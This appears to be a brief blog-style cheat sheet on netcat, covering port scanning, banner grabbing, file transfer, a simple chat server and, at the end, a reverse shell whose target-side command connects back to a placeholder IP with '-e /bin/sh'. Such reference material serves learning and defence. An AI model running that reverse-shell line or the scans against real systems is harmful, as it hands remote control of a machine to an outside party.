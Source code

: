 ```yaml
---
title: "netcat"
categories: 
- informationsecurity
tags:
- blue team
- tools
classes: 
- wide
excerpt: "*Swiss army knife* of networking" 
toc: true
--- 
```


# Introduction to Netcat

Netcat is a versatile networking tool known for its simplicity and effectiveness. It's used for tasks like port scanning, file transfers, and network debugging, utilizing TCP/UDP protocols. Commonly referred to as the "Swiss Army knife" of networking, it's a fundamental tool for system administrators and security professionals.

## Port scanning

```bash
# Command
nc -zv [server IP or domain] [port range]

# Example
nc -zv example.com 80-90
```

## Banner grabbing

```bash
# Command
nc [server IP or domain] [port]

# Example
nc example.com 80
```

## Transferring files

```bash
# Receiving
nc -l -p [port] > [output file]

# Sending
nc [server IP] [port] < [input file]
```

## Simple chat server

```bash
# Server
nc -l -p [port]

# Client
nc [server IP] [port]
```

## Reverse shell

```bash
# Client
nc -lvp 1234

# Target
nc [client's IP] [port] -e /bin/sh
```

## Source

* [nc(1) - Linux man page][def]

[def]: https://linux.die.net/man/1/nc
